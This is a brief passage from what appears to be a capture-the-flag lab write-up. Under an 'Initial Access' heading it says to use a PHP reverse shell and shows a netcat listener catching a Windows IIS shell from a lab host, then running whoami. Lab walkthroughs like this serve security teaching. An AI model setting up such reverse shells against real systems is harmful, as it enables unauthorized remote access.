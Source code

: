 ![](assets/Pasted%20image%2020250612174431.png)

## Initial Access

Now do the same but with a PHP reverse shell.

```shell
$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.151] 49680
SOCKET: Shell has connected! PID: 7080
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
iis apppool\defaultapppool
```
